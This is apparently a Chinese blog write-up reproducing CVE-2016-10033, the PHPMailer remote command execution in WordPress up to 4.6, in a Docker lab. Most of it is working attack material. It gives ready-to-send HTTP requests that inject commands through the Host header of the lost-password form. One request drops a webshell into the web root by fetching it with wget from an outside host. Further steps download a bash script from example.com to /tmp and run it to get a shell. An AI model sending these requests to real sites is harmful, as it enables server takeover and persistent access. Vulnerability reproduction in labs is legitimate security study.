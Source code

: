 ```yaml
---
title: WordPress <= 4.6 命令执行漏洞(CVE-2016-10033)
category: 
- 渗透测试
tags: 
- Docker
- 漏洞复现
---
```


### 漏洞信息

WordPress 是一种使用 PHP 语言开发的博客平台，用户可以在支持 PHP 和 MySQL 数据库的服务器上架设属于自己的网站。也可以把 WordPress 当作一个内容管理系统（CMS）来使用。WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。

### 影响版本

WordPress <= 4.6

### 镜像信息

![image-20201201143200759](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201201143200759.png)

### 漏洞环境搭建

- 拉取镜像到本地

```bash
$ docker pull medicean/vulapps:w_wordpress_6
```

- 启动环境

```bash
$ docker run -d -p 8000:80 medicean/vulapps:w_wordpress_6
```

<!-- more -->

### 漏洞利用

- 访问 `http://你的 IP 地址:端口号/`

![image-20201201143345117](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201201143345117.png)

### 利用过程

- 启动kali
- 使用docker搭建漏洞环境

### Poc：

填写目标 IP 和 端口

```http
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}vuln}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

访问：http://127.0.0.1:8000/vuln看到返回状态码为 200 代表已经成功创建了 `/var/www/html/vuln` 文件

### Exp：

在远程 HTTP 服务器上创建一个文本文件，通过 `wget` 下载到目标机器上

1、向目标写webshell

```http
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}webshell.php${substr{10}{1}{$tod_log}}raw.githubusercontent.com${substr{0}{1}{$spool_directory}}medicean${substr{0}{1}{$spool_directory}}vulapps${substr{0}{1}{$spool_directory}}master${substr{0}{1}{$spool_directory}}w${substr{0}{1}{$spool_directory}}wordpress${substr{0}{1}{$spool_directory}}6${substr{0}{1}{$spool_directory}}webshell.php}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

访问 http://127.0.0.1:8000/webshell.php

![image-20201201150609182](https://cdn.jsdelivr.net/gh/John-tlh/blog/images/2020image-20201201150609182.png)

2、反弹shell

远程文本文件内容如果是 bash 脚本，可在下载到目标后，直接用 `/bin/bash` 来执行该文件

下载脚本：

```bash
/usr/bin/wget --output-document /tmp/rce example.com/1.txt
```

执行：

```bash
/bin/bash /tmp/rce
```

### 参考链接

[references](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html)